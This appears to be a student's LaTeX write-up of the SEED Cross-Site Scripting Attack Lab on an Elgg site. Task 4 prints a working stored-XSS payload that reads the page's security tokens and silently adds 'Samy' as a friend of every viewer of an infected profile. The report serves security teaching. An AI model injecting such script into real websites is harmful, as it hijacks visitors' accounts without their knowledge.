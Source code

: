\documentclass[10pt,\jkfside,a4paper]{article}
\begin{document}
I commented out the return statement at the start of the \texttt{validate}
function and observed that this prevented the attacks from tasks 2 and 3
from working.

\section{Cross-Site Scripting (XSS) Attack Lab}

\subsection{Task 1: Posting a Malicious message to Display an Alert Window}

I copied the code provided into the description and successfully observed
that the Javascript code \textit{was} run.

\subsection{Task 2: Posting a Malicious Message to Display Cookies}

I copied the code provided and observed the expected outcome.

\subsection{Task 3: Stealing Cookies from the Victim's Machine}

I copied the code provided and observed the expected outcome.

\subsection{Task 4: Becoming the Victim's Friend}

I set the profile to the following html and observed that it added Samy as
the friend of \textit{anyone} who viewed the ``\texttt{About Me}'' of an
infected account.

\begin{lstlisting}[language=javascript]
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
\end{lstlisting}
\end{document}
